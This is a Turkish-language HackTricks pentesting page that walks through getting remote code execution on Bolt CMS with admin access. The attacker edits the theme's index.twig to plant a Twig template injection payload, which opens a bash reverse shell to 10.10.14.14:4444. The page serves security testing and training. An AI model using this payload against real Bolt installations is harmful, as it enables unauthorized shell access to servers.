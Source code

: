 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Admin olarak giriş yaptıktan sonra (giriş istemine erişmek için /bot adresine gidin), Bolt CMS'de RCE alabilirsiniz:

- `Configuration` -> `View Configuration` -> `Main Configuration` seçin veya URL yoluna `/bolt/file-edit/config?file=/bolt/config.yaml` gidin
- Tema değerini kontrol edin

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- `File management` -> `View & edit templates` seçin
- Önceki adımda bulunan tema tabanını seçin (`base-2021` bu durumda) ve `index.twig` seçin
- Benim durumumda bu URL yolunda /bolt/file-edit/themes?file=/base-2021/index.twig
- Bu dosyada [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php) ile yüklemenizi ayarlayın, örneğin: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- Ve değişiklikleri kaydedin

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- `Maintenance` -> `Clear the cache` bölümünde önbelleği temizleyin
- Sayfaya tekrar normal bir kullanıcı olarak erişin ve yükleme çalıştırılmalıdır

{{#include ../../banners/hacktricks-training.md}}
